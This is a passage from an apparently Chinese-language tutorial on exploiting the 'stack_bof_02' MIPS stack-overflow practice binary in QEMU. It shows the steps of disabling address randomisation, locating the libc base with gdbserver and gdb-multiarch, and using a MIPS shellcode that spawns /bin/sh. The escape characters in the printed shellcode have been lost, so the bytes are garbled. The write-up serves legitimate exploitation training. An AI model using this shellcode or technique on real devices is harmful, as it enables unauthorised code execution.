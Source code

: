 [![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01a0ac870b583ec154.png)

所以我们在shellcode前面加上几句”x26x40x08x01”即可。

### <a class="reference-link" name="qemu%E6%A8%A1%E6%8B%9F%E8%B0%83%E8%AF%95"></a>qemu模拟调试

这道题目的qemu的模拟，用的还是之前的那道题目相同的环境，我在这里只介绍一下具体的流程：

1.先启动qemu，配置好网络环境，依次运行start.sh，net.sh（看上面介绍），在qemu里面运行net.sh，并且也要运行一下

```
echo 0 &gt; /proc/sys/kernel/randomize_va_space
```

因为我们用的是debian的，他里面是开了地址随机化的，所以我们要先关闭地址随机化。（注意，这里一定要弄，我就在qemu里面调试的时候费了好长时间，总是发生错误，后来知道是没有关闭地址随机化）

2.将之前在本地运行好的content1拷过去

```
scp content1 root@192.168.100.3:/root/
```

3.自然是寻找libc的地址，用的还是之前的方法（我在想能不能像ctf题目一样泄漏libc的地址呢？回头研究一下，如果有大佬能提点一下的话，会更好）

```
#在qemu里面
chroot . ./gdbserver.mipsel 192.168.100.254:6666 ./pwnable/ShellCode_Required/stack_bof_02 "`cat content1`"
#在本机中运行
gdb-multiarch ./pwnable/Intro/stack_bof_01
set arch mips #可选
set endian big/little #可选
target remote 192.168.100.3:6666
#进入到gdb中
b *0x400928
c
vmmap
```

其中可以看到libc的基地址是`0x77ee2000`,我们在content1.py脚本中修改一下libc的基地址，生成相应的content1，然后拷贝进qemu中，在qemu中运行，然后失败了，跟踪的时候，是执行/bin/sh的时候，不知道什么原因，后来改了一个shellcode，改后的shellcode为：

```
shellcode = ""
shellcode += "x26x40x08x01"
shellcode += "xffxffx10x04xabx0fx02x24"
shellcode += "x55xf0x46x20x66x06xffx23"
shellcode += "xc2xf9xecx23x66x06xbdx23"
shellcode += "x9axf9xacxafx9exf9xa6xaf"
shellcode += "x9axf9xbdx23x21x20x80x01"
shellcode += "x21x28xa0x03xccxcdx44x03"
shellcode += "/bin/sh";
```

然后运行生成content1，上传，运行`chroot . ./pwnable/ShellCode_Required/stack_bof_02 "`cat content1`"`成功如下图所示：
